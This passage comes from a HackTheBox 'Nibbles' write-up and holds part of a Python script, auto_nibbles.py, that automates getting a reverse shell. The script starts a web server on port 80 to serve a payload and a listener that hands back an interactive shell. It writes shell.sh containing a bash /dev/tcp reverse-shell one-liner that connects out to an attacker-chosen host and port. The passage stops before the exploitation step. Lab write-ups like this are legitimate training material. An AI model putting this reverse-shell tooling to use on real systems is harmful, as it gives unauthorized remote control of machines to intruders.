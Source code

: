 Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-13-HackTheBox-Nibbles/2021-12-13-HackTheBox-Nibbles%2007:32:56.png)

auto_nibbles.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell Nibbles - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import os
from threading import Thread
import threading
import http.server
import socket
from http.server import HTTPServer, SimpleHTTPRequestHandler

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True
        thread.start()
    else:
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Create the shell.sh file
def createPayload(lhost,lport):
    print("[+] Let's creat the shell.sh file !! [+]")
    payload = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    f = open("shell.sh", "w")
    f.write(payload)
    f.close()
    print("[+] File Created !!! [+]")
```